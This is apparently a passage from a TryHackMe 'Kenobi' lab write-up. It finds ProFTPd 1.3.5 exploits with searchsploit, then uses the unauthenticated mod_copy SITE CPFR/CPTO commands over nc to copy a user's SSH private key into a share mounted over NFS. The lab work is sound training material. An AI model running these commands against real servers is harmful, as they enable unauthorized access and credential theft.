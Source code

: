## Now for Vuln analysis

We first check if any vulns are available for the particular version

```jsx
┌──(namura㉿namu)-[~/thm/kenobi]
└─$ searchsploit proftpd 1.3.5
---------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                        |  Path
---------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)             | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                   | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)               | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                             | linux/remote/36742.txt
---------------------------------------------------------------------- ---------------------------------
```

We got the ones we need, cmd exec and RCE, file cpy

For mod_copy:

The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the filesystem to a chosen destination.

## Now for exploitation

Using the ftp server, we get the private key for user: kenobi in `/home/kenobi/.ssh/id_rsa`

and we move it to `/var/tmp/id_rsa` on the ftp server

```jsx
┌──(namura㉿namu)-[~/thm/kenobi]
└─$ nc 10.10.217.222 21            
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.217.222]

500 Invalid command: try being more creative
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```

Then we mount the NFS to out local mount on `/mnt/kenobiNFS`

We create a directory and then we list them

```jsx
┌──(namura㉿namu)-[~/thm/kenobi]
└─$ sudo mount 10.10.217.222:/var /mnt/kenobiNFS

                                                                                                        
┌──(namura㉿namu)-[~/thm/kenobi]
└─$ ls -la /mnt/kenobiNFS

total 56
drwxr-xr-x 14 root root  4096 Sep  4  2019 .
drwxr-xr-x  3 root root  4096 Jun  6 17:22 ..
drwxr-xr-x  2 root root  4096 Sep  4  2019 backups
drwxr-xr-x  9 root root  4096 Sep  4  2019 cache
drwxrwxrwt  2 root root  4096 Sep  4  2019 crash
drwxr-xr-x 40 root root  4096 Sep  4  2019 lib
drwxrwsr-x  2 root staff 4096 Apr 13  2016 local
lrwxrwxrwx  1 root root     9 Sep  4  2019 lock -> /run/lock
drwxrwxr-x 10 root _ssh  4096 Sep  4  2019 log
```